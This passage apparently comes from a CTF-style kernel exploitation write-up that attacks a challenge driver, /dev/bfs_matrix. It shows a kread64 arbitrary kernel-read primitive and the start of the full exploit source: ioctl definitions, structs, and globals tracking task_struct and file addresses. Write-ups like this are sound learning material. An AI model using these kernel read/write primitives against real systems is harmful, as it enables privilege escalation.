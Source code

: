 ```c
uint64_t kread64(uint64_t addr)
{
int i;
uint64_t val;
	
	// set fd3 data pt to addr
	kwrite64(fd3_addr + 8, addr);
	// read addr 
	for (i=0, val=0; i<8; i++)
		val |= (uint64_t)matrix_get_pos(fd3,i,0)<<(i<<3);
	return (val);
}
```

Now we have all we need for our exploit,

Here is the final version of the exploit:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <err.h>
#include <sys/ioctl.h>
#include <string.h>
#include <stddef.h>
#include <sys/prctl.h>
#include <unistd.h>

#define DEVICE_NAME "/dev/bfs_matrix"

#define MAX_MATRIX_NAME 16

#define IOCTL_MATRIX_SET_NAME _IOWR('s', 1, void*)
#define IOCTL_MATRIX_GET_NAME _IOWR('s', 2, void*)
#define IOCTL_MATRIX_GET_INFO _IOWR('s', 3, struct matrix_info)
#define IOCTL_MATRIX_SET_INFO _IOWR('s', 4, struct matrix_info)
#define IOCTL_MATRIX_GET_POS  _IOWR('s', 5, struct matrix_pos)
#define IOCTL_MATRIX_SET_POS  _IOWR('s', 6, struct matrix_pos)
#define IOCTL_MATRIX_DO_LINK  _IOWR('s', 7, int)

// global vars
uint64_t task_struct, fd3_addr;
int fd1,fd2,fd3,fd4,fd5;

struct matrix_info
{
  int rows;
  int cols;
};

struct matrix_pos
{
  int row;
  int col;
  uint8_t byte;
};

// Undefine this if you don't want debug trazes
#define DEBUG 1

```